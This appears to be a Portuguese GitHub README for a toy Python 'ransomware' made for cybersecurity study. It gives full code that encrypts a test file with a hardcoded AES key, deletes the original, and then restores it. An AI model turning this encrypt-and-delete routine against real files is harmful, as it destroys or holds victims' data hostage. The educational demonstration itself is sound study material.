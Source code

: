 ### Ransomware em Python:
Este projeto é uma ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos por meio da biblioteca pyaes.

## Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

## Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

- Criar um arquivo para teste:
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

- Executar o Encrypter:
python encrypter.py
isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

- Executar o Decrypter:
python decrypter.py
isso removerá o arquivo criptografado e restaurará teste.txt.

## 📝🔹 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
